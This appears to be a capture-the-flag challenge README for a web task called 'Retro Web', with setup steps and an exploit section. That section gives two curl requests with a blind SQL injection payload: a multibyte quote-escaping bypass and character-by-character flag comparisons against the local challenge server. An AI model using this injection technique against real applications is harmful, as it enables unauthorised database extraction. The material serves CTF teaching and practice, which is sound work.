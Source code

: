 Retro Web
---------

Not so easy SQL injection at all.

# Question Text

```
It is all in the challenge.

http://ctf.pwn.sg:8180
```

*Creator - quanyang (@quanyang)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port 1500 with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Exploit Details

curl 'http://localhost:8180/?search' --data 'username=1%bf%27||(SUBSTR(flag,1,1)in(0x43)%26%26(username)in(0x61646D696E));#&action='

versus 

curl 'http://localhost:8180/?search' --data 'username=1%bf%27||(SUBSTR(flag,1,1)in(0x42)%26%26(username)in(0x61646D696E));#&action='